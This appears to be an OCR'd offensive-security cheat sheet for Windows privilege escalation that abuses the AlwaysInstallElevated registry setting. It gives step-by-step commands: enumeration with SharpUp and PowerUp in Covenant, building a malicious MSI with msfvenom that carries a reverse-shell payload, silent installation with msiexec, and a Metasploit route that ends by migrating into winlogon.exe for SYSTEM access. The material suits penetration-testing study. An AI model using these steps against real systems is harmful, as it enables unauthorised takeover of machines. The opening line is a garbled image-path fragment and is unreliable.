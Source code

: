 Computer\HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\
```
> New > Key > Installer > New > Key > DWORD (32-bit) Value > AlwaysInstallElevated
set AlwaysInstallElevated to 1
```

### In Covenant Shell:
```powershell
sharpup audit
PowerShellImport > browse > PowerUp.ps1
powershell Invoke-AllChecks
```

> Here we are looking for **AlwaysInstallElevated** Registry Keys - HKLM | HKCU
This vulnerability give us privilege escalation opportunity.

> [*] Checking for **AlwaysInstallElevated** registry key...
AbuseFunction : Write-UserAddMSI

```bash
msfvenom -p windows/exec CMD="revshell payload from covenant" -f msi -o installer.msi
```

In Covenant Shell:
```
upload C:\Users\Public\installer.msi > browse > grab the installer.msi
ChangeDirectory C:\Users\Public
ls = to verify if your payload is here
shell msiexec /quiet /qn /i installer.msi
this should give us an elevated revshell with authority\system access
```

### with Metasploit:
```bash
# we can get a shell with:
multi/script/web_delivery

# in meterpreter shell session:
getuid
run post/multi/recon/local_exploit_suggester
ctrl+z = to background the session
use exploit/windows/local/always_install_elevated
set options
exploit = ( -j to run in the background if u want)
we get a authority\system shell
ps = to show processes
```

> we can migrate to a SessionID that has 1 as value & is from authority\system = so we get more privileges
usually winlogon.exe. Grab the PID of this process

```powershell
migrate <PID>
sysinfo
```
